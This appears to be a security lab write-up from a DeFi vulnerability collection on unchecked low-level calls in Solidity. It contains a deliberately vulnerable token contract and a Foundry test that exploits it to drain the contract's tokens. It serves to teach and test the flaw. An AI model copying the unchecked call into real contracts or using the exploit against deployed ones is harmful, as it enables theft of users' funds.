  # Unchecked external call - call injection  
 [UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  
 **Name:** Unsafe Call Vulnerability

**Description:**  
In TokenWhale contract's approveAndCallcode function. The vulnerability allows an
arbitrary call to be executed with arbitrary data, leading to potential security risks
and unintended consequences. The function uses a low-level call (_spender.call(_extraData))
to execute code from the _spender address without any validation or checks on the provided _extraData.
This can lead to unexpected behavior, reentrancy attacks, or unauthorized operations.

This excersise is about  a low level call to a contract where input and return values are not checked
If the call data is controllable, it is easy to cause arbitrary function execution.

**Mitigation:**  
Use of low level "call" should be avoided whenever possible.

**REF**  

https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9

**TokenWhale Contract:**  
```
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 mil
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    /* Approves and then calls the contract code*/

    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        // vulnerable call execute unsafe user code
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```  
**How to Test:**

forge test --contracts src/test/UnsafeCall.sol-vvvv  
```
// Function to test the UnsafeCall vulnerability
function testUnsafeCall() public {
    // Setup the environment
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice tries to perform an unsafe call to transfer asset from TokenWhaleContract
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // Using the vm.prank() function to change the msg.sender
    vm.prank(alice);

    // Alice calls the approveAndCallcode function with encoded data that represents a call to the transfer function
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // doesn't affect the exploit
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // Check if the exploit is successful
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // Log the final balances
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// A fallback function to receive ether
receive() external payable {}
```
Red box: exploited successful, drained out the TokenWhale.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fef522203-1293-43f6-bf50-746d2a4b8457%2FUntitled.png?table=block&id=442bc8fe-4714-4112-a892-725b88a7b32e&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)